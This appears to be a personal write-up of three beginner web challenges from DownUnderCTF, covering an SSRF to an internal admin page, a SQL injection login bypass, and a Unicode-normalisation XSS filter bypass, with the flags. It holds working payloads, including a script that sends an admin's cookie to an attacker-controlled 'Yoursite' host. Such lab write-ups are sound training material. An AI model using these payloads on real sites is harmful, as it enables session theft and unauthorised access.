





Another week ended, another CTF event ended, I realized I was not making any process. Maybe, I need to review the way I learned.

Anyway, hope that I can do somthing.

# DownUnderCTF
Here are some easy challenges I did in this CTF
## Web challenge
### Inside Out
Open challenge and view source you can see route to Admin panel: "/admin"

Try to access to /admin, you will receive ```Only accessible from the local network```

Access /request?url=http://example.com/ you will see a local IP: 10.96.0.167

Finally: payload: https://web-inside-out-b3d9f3b9.chal-2021.duc.tf/request?url=http://10.96.0.167/admin

Flag: DUCTF{very_spooky_request}

### Cowboy World:
Type: SQL Injection 

Firstly, I try some sqli payload but it didn't work.

It's a challenge for beginner, so I don't think it has something too difficult. 

I try to access robots.txt you will receive some hint, you must do sql injection with username is `sadcowboy`

Payload: username=sadcowboy&password='+or+1--

Flag: DUCTF{haww_yeeee_downunderctf?}

### Chainreaction:
Type: Xss

Open the challenge, I found out that we can create account and login with this account.

Beside, we can see "For developers sign in and go to the portal this". Access it, we will see `/devchat`, and `/admin` for admin site. We are not allowed to access `/admin`. So try to open `/devchat` we will see a conversion between admin and staff





Take a look to conversion you can see that there is a vulnerability, characters are nomalized after cheking the bad charaters, and the admin said that the admin poral was still under developement, and they used static cookie. Oh maybe, we can use XSS to steal this admin's static cookie.

Use ```"＞＜𝒔cript＞alert(1)＜/𝒔cript＞```  (we can't use normal characters, because `script, <, >` and lots of character are filtered), I get successfully XSS:



Generate payload to steal admin's cookie:
```
"＞＜img id="abcd" src="x"＞＜𝒔cript＞document.getElementById('abcd').src='Yoursite/?c='+document.cookie＜/𝒔cript＞
```
After `Update Information`, click `Report Error` and check you site, you will get admin cookie



Access the admin site with admin cookie, you will get the flag:



Flag: DUCTF{_un1c0de_bypass_x55_ftw!}


